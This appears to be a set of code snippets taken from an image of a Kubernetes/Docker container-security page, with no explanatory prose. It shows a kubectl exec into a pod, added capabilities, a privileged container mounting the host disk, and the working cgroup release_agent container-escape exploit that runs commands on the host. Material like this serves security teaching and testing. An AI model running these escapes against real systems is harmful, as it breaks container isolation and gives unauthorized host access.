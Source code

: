 kubectl exec --stdin --tty nginx-deployment-74b89459bc-g26fc  -- /bin/bash





securityContext:
  capabilities:
    add: ["NET_ADMIN", "SYS_TIME"]

-----

docker run --rm -it --privileged ubuntu:18.04 bash
mkdir -p /mnt/hole
mount /dev/nvme0n1p1 /mnt/hole


# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
'''
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
more /output
'''

